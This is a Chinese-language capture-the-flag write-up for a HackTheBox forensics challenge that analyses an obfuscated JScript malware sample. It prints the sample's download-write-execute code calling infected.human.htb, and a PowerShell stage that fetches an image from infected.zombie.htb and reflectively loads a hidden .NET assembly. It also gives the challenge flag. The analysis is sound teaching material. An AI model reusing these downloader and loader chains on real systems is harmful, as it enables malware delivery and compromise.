



# Getting Closer

:::note CHALLENGE DESCRIPTION

EASY

Tasked with defending the antidote's research, a diverse group of students united against a relentless cyber onslaught. As codes clashed and defenses were tested, their collective effort stood as humanity's beacon, inching closer to safeguarding the research for the cure with every thwarted attack. A stealthy attack might have penetrated their defenses. Along with the Hackster's University students, analyze the provided file so you can detect this attack in the future. *Note:** Make sure you edit `/etc/host` so that any hostnames found point to the Docker IP.

:::

题目附件中提供了一份 js 脚本

```javascript
function b0ggJmxhfltbMChDZCVjRzogKz5oQVtST3g(T3Z1eFJaQWJAZ0R2, UHw6dEdFTENDZGJsMg, In4yInUlMHp0Uyo) {
    SetStandardNameSpaces(In4yInUlMHp0Uyo.XmlNode);
    var aUV9SGdocW83TjpAImFeWi1sOWA = getPrefixForNamespace(In4yInUlMHp0Uyo.XmlNode, iIxaSccVRaPCsnQAMPSaLszMbVuJdCKpmDnmtrqwBcHGAySufBgkUyoiqjtIUsuDAPocDpKQHPhwudAOvzZarRqsgQRUGtuhfNiMJhHjebvVbgBYtTmEUAwuFlSvGnYLyNEiLzdUDdYfFiqetXBfPSoYBGZAFBMkuYCLsnbQTOnRAgmyaYFdpjUcqtDdqBCdunNVzzuQ);
    if (aUV9SGdocW83TjpAImFeWi1sOWA != null) {
        var pdcParameterDefs = getParameterDefs(UHw6dEdFTENDZGJsMg);
        for (var defCount = 0; defCount < pdcParameterDefs.length; defCount++) {
            var paramString = T3Z1eFJaQWJAZ0R2.getString(pdcParameterDefs[defCount]);
            if (paramString != null && paramString.length> 0) {
                var paramName = aUV9SGdocW83TjpAImFeWi1sOWA + ":" + pdcParameterDefs[defCount];
                var currNode = In4yInUlMHp0Uyo.GetParameterInitializer(pdcParameterDefs[defCount], iIxaSccVRaPCsnQAMPSaLszMbVuJdCKpmDnmtrqwBcHGAySufBgkUyoiqjtIUsuDAPocDpKQHPhwudAOvzZarRqsgQRUGtuhfNiMJhHjebvVbgBYtTmEUAwuFlSvGnYLyNEiLzdUDdYfFiqetXBfPSoYBGZAFBMkuYCLsnbQTOnRAgmyaYFdpjUcqtDdqBCdunNVzzuQ)
                if (currNode == null) {
                    var ptRoot = In4yInUlMHp0Uyo.XmlNode.selectSingleNode("psf:PrintTicket");
                    var newParam = createProperty(paramName, "psf:ParameterInit", "xsd:string", paramString, In4yInUlMHp0Uyo);
                    ptRoot.appendChild(newParam);
                } else {
                    currNode.Value = paramString;
                }
            }
        }
    }
}

var lOLMCBgGDMolnlotrwOCsILGbKwBtzwvlYFqZdGLMqDxTrcBnpLiTUBqFfekJSDzoSURpLfjiRFSkUbDiScOejegcwcjNbnqGNXuTbtsxWGWvICjWnbUbbSrdUVFqffbkvjTgFhvQddrraBIrYWfNFerCZkSxFapZwPgmIRIyaedLHpBnOvnVBXwzWPxOQJgZModJeUo = new ActiveXObject("MSXML2.XMLHTTP.6.0");
var JzmzxutRESvvBNHRMgpQhJAmcuQNznBjwAbLtjLBPxoSGrvUCnwREryDvVBastJacHxICmpgOWJgUwSRXRwqAfFBpuXfuvQKeSHGMmiEVLNOXDrsiBQmKtBgrFvFnOEJvhaUPRsHWHJXFQABJnHSqYrABIaNvQjFElrbSrEIiGzCJnSHUlYQEbKNziGHlMlUiowWRPGw = new ActiveXObject("Scripting.FileSystemObject");
var CBZgIjkHfADIgnNwHIVgtNUBrjVWafHrRLSEDPUswrmjNaNRlTvDJdozVFfzVMHzjpdEoPlopkYPcunDXLgZbCcQToMaDqHieSCkYfzqatlzDRQLBtqFKLlIFmxbDebsFmXdhiHTvGzmMWEYMqzotmHetctmiYuMUuOQqaEEejfRnHyuiJAkwFYKwLrvfTVaxVzqMtWo = new ActiveXObject("WScript.Shell");
var AWgjPuudKWaufCdsGlXcfGBXlWzhGnugaLFEZJkXljTIiTlWxLziYRhZzkEFdwJZiyWUhBJhdaulcmVYllmbyxEpozeZhAVxCXClTUUNYngPYhWwTcyNovmwukeWsnLJLifhihpqYKHbzEQKIknuNqTCdJWSnzlEIEhoNPhzhAXLCkxsMeeRXRsGrNCeOSIcnFkMnhoj = 'C:\\Windows\\Temp';
var iQXNrUYfNRSDeYTqnnkAIHwOoiXzYicXoPIsDDsvvMnUvRWDdAoPhJQODSZHHiYLhONKLMuCrHuXfnbBOfSXYQRqtlzvJanjlYDvJPkIZzBBxzIPXbVvzIiVfxtXKEUaPQjQShbHdYcntUkfCfqOYGuzAbsGwzJAUvAZLujabnpPtDdTlZeepJmpUIpLJifXCeTPLhbiName = JzmzxutRESvvBNHRMgpQhJAmcuQNznBjwAbLtjLBPxoSGrvUCnwREryDvVBastJacHxICmpgOWJgUwSRXRwqAfFBpuXfuvQKeSHGMmiEVLNOXDrsiBQmKtBgrFvFnOEJvhaUPRsHWHJXFQABJnHSqYrABIaNvQjFElrbSrEIiGzCJnSHUlYQEbKNziGHlMlUiowWRPGw.GetTempName() + ".vbs";
var iQXNrUYfNRSDeYTqnnkAIHwOoiXzYicXoPIsDDsvvMnUvRWDdAoPhJQODSZHHiYLhONKLMuCrHuXfnbBOfSXYQRqtlzvJanjlYDvJPkIZzBBxzIPXbVvzIiVfxtXKEUaPQjQShbHdYcntUkfCfqOYGuzAbsGwzJAUvAZLujabnpPtDdTlZeepJmpUIpLJifXCeTPLhbi = JzmzxutRESvvBNHRMgpQhJAmcuQNznBjwAbLtjLBPxoSGrvUCnwREryDvVBastJacHxICmpgOWJgUwSRXRwqAfFBpuXfuvQKeSHGMmiEVLNOXDrsiBQmKtBgrFvFnOEJvhaUPRsHWHJXFQABJnHSqYrABIaNvQjFElrbSrEIiGzCJnSHUlYQEbKNziGHlMlUiowWRPGw.BuildPath(AWgjPuudKWaufCdsGlXcfGBXlWzhGnugaLFEZJkXljTIiTlWxLziYRhZzkEFdwJZiyWUhBJhdaulcmVYllmbyxEpozeZhAVxCXClTUUNYngPYhWwTcyNovmwukeWsnLJLifhihpqYKHbzEQKIknuNqTCdJWSnzlEIEhoNPhzhAXLCkxsMeeRXRsGrNCeOSIcnFkMnhoj, iQXNrUYfNRSDeYTqnnkAIHwOoiXzYicXoPIsDDsvvMnUvRWDdAoPhJQODSZHHiYLhONKLMuCrHuXfnbBOfSXYQRqtlzvJanjlYDvJPkIZzBBxzIPXbVvzIiVfxtXKEUaPQjQShbHdYcntUkfCfqOYGuzAbsGwzJAUvAZLujabnpPtDdTlZeepJmpUIpLJifXCeTPLhbiName);
lOLMCBgGDMolnlotrwOCsILGbKwBtzwvlYFqZdGLMqDxTrcBnpLiTUBqFfekJSDzoSURpLfjiRFSkUbDiScOejegcwcjNbnqGNXuTbtsxWGWvICjWnbUbbSrdUVFqffbkvjTgFhvQddrraBIrYWfNFerCZkSxFapZwPgmIRIyaedLHpBnOvnVBXwzWPxOQJgZModJeUo.open("GET", "http://infected.human.htb/d/BKtQR", false);
lOLMCBgGDMolnlotrwOCsILGbKwBtzwvlYFqZdGLMqDxTrcBnpLiTUBqFfekJSDzoSURpLfjiRFSkUbDiScOejegcwcjNbnqGNXuTbtsxWGWvICjWnbUbbSrdUVFqffbkvjTgFhvQddrraBIrYWfNFerCZkSxFapZwPgmIRIyaedLHpBnOvnVBXwzWPxOQJgZModJeUo.send();

if (lOLMCBgGDMolnlotrwOCsILGbKwBtzwvlYFqZdGLMqDxTrcBnpLiTUBqFfekJSDzoSURpLfjiRFSkUbDiScOejegcwcjNbnqGNXuTbtsxWGWvICjWnbUbbSrdUVFqffbkvjTgFhvQddrraBIrYWfNFerCZkSxFapZwPgmIRIyaedLHpBnOvnVBXwzWPxOQJgZModJeUo.status === 200) {
    var scriptText = lOLMCBgGDMolnlotrwOCsILGbKwBtzwvlYFqZdGLMqDxTrcBnpLiTUBqFfekJSDzoSURpLfjiRFSkUbDiScOejegcwcjNbnqGNXuTbtsxWGWvICjWnbUbbSrdUVFqffbkvjTgFhvQddrraBIrYWfNFerCZkSxFapZwPgmIRIyaedLHpBnOvnVBXwzWPxOQJgZModJeUo.responseText;
    var niyXKljCzNIENaWUxwYBODsAbUBFKCJJDbfyisBKTJpULtjrXSJIFBuGWkcmuhgDVdoSEMJPHvMzQiawcsBNhsfKbJlyQjzKLgnECDbAprhNSnXpNJwbwMQZWzJFAaxCQavQsDuRRIYXARrTgOjQgNHKgerFZvrghSUylvwuvszeCUHWvaOxTjgJDUzNCjCHYBnfbGOX = JzmzxutRESvvBNHRMgpQhJAmcuQNznBjwAbLtjLBPxoSGrvUCnwREryDvVBastJacHxICmpgOWJgUwSRXRwqAfFBpuXfuvQKeSHGMmiEVLNOXDrsiBQmKtBgrFvFnOEJvhaUPRsHWHJXFQABJnHSqYrABIaNvQjFElrbSrEIiGzCJnSHUlYQEbKNziGHlMlUiowWRPGw.CreateTextFile(iQXNrUYfNRSDeYTqnnkAIHwOoiXzYicXoPIsDDsvvMnUvRWDdAoPhJQODSZHHiYLhONKLMuCrHuXfnbBOfSXYQRqtlzvJanjlYDvJPkIZzBBxzIPXbVvzIiVfxtXKEUaPQjQShbHdYcntUkfCfqOYGuzAbsGwzJAUvAZLujabnpPtDdTlZeepJmpUIpLJifXCeTPLhbi, true);
    niyXKljCzNIENaWUxwYBODsAbUBFKCJJDbfyisBKTJpULtjrXSJIFBuGWkcmuhgDVdoSEMJPHvMzQiawcsBNhsfKbJlyQjzKLgnECDbAprhNSnXpNJwbwMQZWzJFAaxCQavQsDuRRIYXARrTgOjQgNHKgerFZvrghSUylvwuvszeCUHWvaOxTjgJDUzNCjCHYBnfbGOX.write(scriptText);
    niyXKljCzNIENaWUxwYBODsAbUBFKCJJDbfyisBKTJpULtjrXSJIFBuGWkcmuhgDVdoSEMJPHvMzQiawcsBNhsfKbJlyQjzKLgnECDbAprhNSnXpNJwbwMQZWzJFAaxCQavQsDuRRIYXARrTgOjQgNHKgerFZvrghSUylvwuvszeCUHWvaOxTjgJDUzNCjCHYBnfbGOX.close();
    var kFDpRbkGYzMjxpDvpsBUmWdRZQYKzHzicYnHeVAsyBErEExScslrucqNQomSurYvoaVCTILMrbSKgXeYCBiPqVYDhrOfNUdYGDYmDMHXaJRqZfRmNBivjAFdHQctMgOOYTbLIzTfMwiDriqYXdfJORQtnVlwEfumyikULcvhUBQOztBlzheoLivROSUFkYoEgWpzuyVe = CBZgIjkHfADIgnNwHIVgtNUBrjVWafHrRLSEDPUswrmjNaNRlTvDJdozVFfzVMHzjpdEoPlopkYPcunDXLgZbCcQToMaDqHieSCkYfzqatlzDRQLBtqFKLlIFmxbDebsFmXdhiHTvGzmMWEYMqzotmHetctmiYuMUuOQqaEEejfRnHyuiJAkwFYKwLrvfTVaxVzqMtWo.Exec('wscript"' + iQXNrUYfNRSDeYTqnnkAIHwOoiXzYicXoPIsDDsvvMnUvRWDdAoPhJQODSZHHiYLhONKLMuCrHuXfnbBOfSXYQRqtlzvJanjlYDvJPkIZzBBxzIPXbVvzIiVfxtXKEUaPQjQShbHdYcntUkfCfqOYGuzAbsGwzJAUvAZLujabnpPtDdTlZeepJmpUIpLJifXCeTPLhbi + '"');
    while (kFDpRbkGYzMjxpDvpsBUmWdRZQYKzHzicYnHeVAsyBErEExScslrucqNQomSurYvoaVCTILMrbSKgXeYCBiPqVYDhrOfNUdYGDYmDMHXaJRqZfRmNBivjAFdHQctMgOOYTbLIzTfMwiDriqYXdfJORQtnVlwEfumyikULcvhUBQOztBlzheoLivROSUFkYoEgWpzuyVe.Status === 0) {
        WScript.Sleep(100);
    }
    JzmzxutRESvvBNHRMgpQhJAmcuQNznBjwAbLtjLBPxoSGrvUCnwREryDvVBastJacHxICmpgOWJgUwSRXRwqAfFBpuXfuvQKeSHGMmiEVLNOXDrsiBQmKtBgrFvFnOEJvhaUPRsHWHJXFQABJnHSqYrABIaNvQjFElrbSrEIiGzCJnSHUlYQEbKNziGHlMlUiowWRPGw.DeleteFile(iQXNrUYfNRSDeYTqnnkAIHwOoiXzYicXoPIsDDsvvMnUvRWDdAoPhJQODSZHHiYLhONKLMuCrHuXfnbBOfSXYQRqtlzvJanjlYDvJPkIZzBBxzIPXbVvzIiVfxtXKEUaPQjQShbHdYcntUkfCfqOYGuzAbsGwzJAUvAZLujabnpPtDdTlZeepJmpUIpLJifXCeTPLhbi);

} else {
    WScript.Echo("Fatal:" + lOLMCBgGDMolnlotrwOCsILGbKwBtzwvlYFqZdGLMqDxTrcBnpLiTUBqFfekJSDzoSURpLfjiRFSkUbDiScOejegcwcjNbnqGNXuTbtsxWGWvICjWnbUbbSrdUVFqffbkvjTgFhvQddrraBIrYWfNFerCZkSxFapZwPgmIRIyaedLHpBnOvnVBXwzWPxOQJgZModJeUo.status);
}


function xxzICTEWUoZJBJKxzXZbbVSdcJZwpWdrOlNipimSCjHVGPbNIQmESWNdTqMEDUAvKRNqmroqETSTepIlqrGYbzqORBboJyIQldbCGgBJyMxvBBcmaCgiHqHiHCAqzXdbLbcNWQYwahvPUXRivRmbqhBxETFNBupQRezBVHBgIbWOunyFCILIiLvBNnGKhXSJgzGTHZQw(In4yInUlMHp0Uyo, UHw6dEdFTENDZGJsMg, T3Z1eFJaQWJAZ0R2) {
    SetStandardNameSpaces(In4yInUlMHp0Uyo.XmlNode);
    var aUV9SGdocW83TjpAImFeWi1sOWA = getPrefixForNamespace(In4yInUlMHp0Uyo.XmlNode, iIxaSccVRaPCsnQAMPSaLszMbVuJdCKpmDnmtrqwBcHGAySufBgkUyoiqjtIUsuDAPocDpKQHPhwudAOvzZarRqsgQRUGtuhfNiMJhHjebvVbgBYtTmEUAwuFlSvGnYLyNEiLzdUDdYfFiqetXBfPSoYBGZAFBMkuYCLsnbQTOnRAgmyaYFdpjUcqtDdqBCdunNVzzuQ);
    if (aUV9SGdocW83TjpAImFeWi1sOWA != null) {
        var pdcParameterDefs = getParameterDefs(UHw6dEdFTENDZGJsMg);
        for (var defCount = 0; defCount < pdcParameterDefs.length; defCount++) {
            var currNode = In4yInUlMHp0Uyo.GetParameterInitializer(pdcParameterDefs[defCount], iIxaSccVRaPCsnQAMPSaLszMbVuJdCKpmDnmtrqwBcHGAySufBgkUyoiqjtIUsuDAPocDpKQHPhwudAOvzZarRqsgQRUGtuhfNiMJhHjebvVbgBYtTmEUAwuFlSvGnYLyNEiLzdUDdYfFiqetXBfPSoYBGZAFBMkuYCLsnbQTOnRAgmyaYFdpjUcqtDdqBCdunNVzzuQ)
            if (currNode != null) {
                T3Z1eFJaQWJAZ0R2.setString(pdcParameterDefs[defCount], currNode.Value);
            }
        }
    }
}
```

看起来脚本经过混淆，尝试解混淆

```javascript
function func1(p1, p2, p3) {
    SetStandardNameSpaces(p3.XmlNode);
    var v1 = getPrefixForNamespace(p3.XmlNode, v2);
    if (v1 != null) {
        var pdcParameterDefs = getParameterDefs(p2);
        for (var defCount = 0; defCount < pdcParameterDefs.length; defCount++) {
            var paramString = p1.getString(pdcParameterDefs[defCount]);
            if (paramString != null && paramString.length> 0) {
                var paramName = v1 + ":" + pdcParameterDefs[defCount];
                var currNode = p3.GetParameterInitializer(pdcParameterDefs[defCount], v2)
                if (currNode == null) {
                    var ptRoot = p3.XmlNode.selectSingleNode("psf:PrintTicket");
                    var newParam = createProperty(paramName, "psf:ParameterInit", "xsd:string", paramString, p3);
                    ptRoot.appendChild(newParam);
                } else {
                    currNode.Value = paramString;
                }
            }
        }
    }
}

var gv1 = new ActiveXObject("MSXML2.XMLHTTP.6.0");
var gv2 = new ActiveXObject("Scripting.FileSystemObject");
var gv3 = new ActiveXObject("WScript.Shell");
var gv4 = 'C:\\Windows\\Temp';
var gv5 = gv2.GetTempName() + ".vbs";
var gv6 = gv2.BuildPath(gv4, gv5);
gv1.open("GET", "http://infected.human.htb/d/BKtQR", false);
gv1.send();

if (gv1.status === 200) {
    var scriptText = gv1.responseText;
    var gv7 = gv2.CreateTextFile(gv6, true);
    gv7.write(scriptText);
    gv7.close();
    var gv8 = gv3.Exec('wscript"' + gv6 + '"');
    while (gv8.Status === 0) {
        WScript.Sleep(100);
    }
    gv2.DeleteFile(gv6);

} else {
    WScript.Echo("Fatal:" + gv1.status);
}


function func2(p3, p2, p1) {
    SetStandardNameSpaces(p3.XmlNode);
    var v1 = getPrefixForNamespace(p3.XmlNode, v2);
    if (v1 != null) {
        var pdcParameterDefs = getParameterDefs(p2);
        for (var defCount = 0; defCount < pdcParameterDefs.length; defCount++) {
            var currNode = p3.GetParameterInitializer(pdcParameterDefs[defCount], v2)
            if (currNode != null) {
                p1.setString(pdcParameterDefs[defCount], currNode.Value);
            }
        }
    }
}
```

在脚本中发现路径 `/d/BKtQR` 字符串，访问后得到一个文件，安全软件报告为恶意载荷

参考 [CTF-zone/HackTheBox/HTB_University_2023.md · winndy112/CTF-zone](https://github.com/winndy112/CTF-zone/blob/564aa69f7709d239d3e472c620879fc8a0ef2a62/HackTheBox/HTB_University_2023.md)

得到

```powershell
$imageUrl = 'http://infected.zombie.htb/WJveX71agmOQ6Gw_1698762642.jpg';
$webClient = New-Object System.Net.WebClient;
$imageBytes = $webClient.DownloadData($imageUrl);
$imageText = [System.Text.Encoding]::UTF8.GetString($imageBytes);
$startFlag = '<<BASE64_START>>';
$endFlag = '<<BASE64_END>>';
$startIndex = $imageText.IndexOf($startFlag);
$endIndex = $imageText.IndexOf($endFlag);
$startIndex -ge 0 -and $endIndex -gt $startIndex;$startIndex += $startFlag.Length;
$base64Length = $endIndex - $startIndex;$base64Command = $imageText.Substring($startIndex, $base64Length);
$commandBytes = [System.Convert]::FromBase64String($base64Command);
$loadedAssembly = [System.Reflection.Assembly]::Load($commandBytes);
$type = $loadedAssembly.GetType('Fiber.Home');
$method = $type.GetMethod('VAI').Invoke($null, [object[]] ('ZDVkZmYyMWIxN2VlLTFmNDgtNWM3NC1jOTM0LWQ3M2MyYTYzPW5la290JmFpZGVtPXRsYT90eHQucmVmc25hcnQvby9tb2MudG9wc3BwYS5mOTNjNi1nbmlrY2FoL2IvMHYvbW9jLnNpcGFlbGdvb2cuZWdhcm90c2VzYWJlcmlmLy86c3B0dGg=' , 'dfdfd' , 'dfdf' , 'dfdf' , 'dadsa' , 'de' , 'cu'))
```

得到一个新路径，访问 `/WJveX71agmOQ6Gw_1698762642.jpg`

下载下来后，发现文件末尾有额外数据



常见的恶意负载传递方式，将末尾的载荷提取出来进行处理



将负载提取出来，在本地进行分析



在文件末尾发现


```plaintext title="Flag"
HTB{0n3_St3p_cl0s3r_t0_th3_cur3}
```
